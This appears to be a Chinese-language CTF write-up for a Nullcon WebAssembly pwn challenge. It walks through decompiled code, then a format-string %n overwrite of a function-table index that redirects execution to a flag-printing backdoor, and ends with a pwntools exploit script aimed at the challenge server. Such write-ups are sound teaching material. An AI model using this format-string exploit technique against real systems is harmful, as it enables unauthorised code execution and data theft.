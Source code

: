 ```yaml
---
title: Nullcon wasm题
date: '2025-02-05 17:30:08'
updated: '2025-04-07 21:33:52'
---
```

省去 wasm 逆向过程（看 Reverse WASM 篇），对照 wat 文件恢复一部分符号之后回到 main 函数：

```c
void main(void)
{
    int iVar1;
    uint *local_70 [4];
    undefined4 *local_60 [4];
    undefined4 local_50 [4];
    undefined *local_40 [2];
    undefined4 local_38;
    uint local_34;
    undefined local_30 [24]; //scanf读入地址
    undefined4 local_18; //可覆盖区域
    undefined2 local_14; //可覆盖区域
    char local_10 [7]; //可覆盖区域
    char acStack_9 [5]; //可覆盖区域
    undefined4 local_4; //可覆盖区域

    local_4 = 0;
    local_10 = (char  [7])s_func_@_%p_ram_000004d4._0_7_;
    acStack_9._0_4_ = s_func_@_%p_ram_000004d4._7_4_;
    local_14 = uRam000004d2;
    local_18 = uRam000004ce;
    local_34 = 1;
    local_38 = 2;
    nobuffer();
    while( true ) {
        local_50[0] = (**(code **)((ulonglong)local_34 * 4))(local_30); //重点
        printf(&local_18,local_50);
        local_30[0] = 0;
        local_40[0] = local_30;
        scanf(0x48a,local_40); //重点
        iVar1 = feof(uRam00000c20);
        if (((iVar1 != 0) || (iVar1 = perror(uRam00000c20), iVar1 != 0)) ||
        (iVar1 = strcmp(local_30,1099), iVar1 == 0)) break;
        getchar();
        iVar1 = strcmp(local_30,s_debug_ram_00000469);
        if (iVar1 == 0) {
            local_70[0] = &local_34; //重点
            printf(local_10,local_70);
            local_60[0] = &local_38;
            printf(local_10,local_60);
        }
    }
    exit(0);
    do {
        halt_trap();
    } while( true );
}
```

重点：

+ 调用了一个函数指针数组当中偏移`local_34`*4 指向的函数
+ 有一个巨大的`scanf`函数，可以覆盖栈上往高地址的数据
+ 有两个`printf`函数，其中`local_10`位于栈上可以被覆盖的部分（可以被覆写）
+ `local_70`当中存的是`local_34`的地址

再看别的函数，发现有后门函数`wassflag`可以直接把 flag 打印出来

```c
undefined4 wassflag(undefined4 param1)

{
  int param1_00;
  undefined4 uVar1;
  byte local_9;
  
  param1_00 = fopen(s_could_not_read_flag.txt_ram_0000041d + 0xf,0x435);
  if (param1_00 == 0) {
    unnamed_function_82(s_could_not_read_flag.txt_ram_0000041d);
  }
  while( true ) {
    uVar1 = fgetc(param1_00);
    if ((char)uVar1 == -1) break;
    putchar((int)(char)uVar1);
  }
  unnamed_function_42(param1_00);
  exit(0);
  do {
    halt_trap();
  } while( true );
}

```

WASM 当中函数表机制生成了一个函数指针数组，

从 wat 文件当中可以看到，`$wassflag`在第二项

![](/images/ef114eec049cd317bd9df37169943fb5.jpeg)

1. 目的要将程序执行流导向`$wassflag`这个函数，而它在函数表的第二项，原本`local_34`的值是 1(`$wassup`)，改为 2 就可以执行到
2. 利用格式化字符串`%n`可以向`local_70`（也就是`local_34`的地址）里面传入数据，从而将`local_34`的值改为 2，`printf`函数打印的字符串`local_10`又位于栈上可以被覆盖的部分
3. 要想执行到`printf`函数处会经过一个`strcmp`比较输入字符串是否为`"debug"`，绕过只需要将格式化字符串前面的 padding 开头换成`"debug\0"`,`strcmp`函数读取到`"\0"`就会停止读取从而绕过检查

EXP：

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=remote("52.59.124.14",5005)

link.recvuntil("> Are you all alone?")
payload=b'debug\0'+b'a'*26+b'aa%n'
link.sendline(payload)

link.interactive()
```

